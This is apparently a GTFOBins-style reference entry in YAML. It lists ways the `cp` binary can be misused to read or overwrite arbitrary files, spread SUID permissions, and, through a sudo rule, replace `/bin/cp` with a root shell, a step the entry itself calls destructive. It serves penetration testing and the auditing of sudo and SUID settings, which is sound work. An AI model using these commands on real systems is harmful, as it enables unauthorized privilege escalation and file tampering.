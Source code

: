   file-read:
    - code: |
        LFILE=file_to_read
        cp "$LFILE" /dev/stdout
  file-write:
    - code: |
        LFILE=file_to_write
        echo "DATA" | cp /dev/stdin "$LFILE"
  suid:
    - code: |
        LFILE=file_to_write
        echo "DATA" | ./cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        ./cp $TF $LFILE
    - description: This can copy SUID permissions from any SUID binary (e.g., `cp` itself) to another.
      code: |
        LFILE=file_to_change
        ./cp --attributes-only --preserve=all ./cp "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_write
        echo "DATA" | sudo cp /dev/stdin "$LFILE"
    - description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges. (The GNU version of `cp` has the `--parents` option that can be used to also create the directory hierarchy specified in the source path, to the destination folder.)
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        sudo cp $TF $LFILE
    - description: This overrides `cp` itself with a shell (or any other executable) that is to be executed as root, useful in case a `sudo` rule allows to only run `cp` by path. Warning, this is a destructive action.
      code: |
        sudo cp /bin/sh /bin/cp
        sudo cp
---
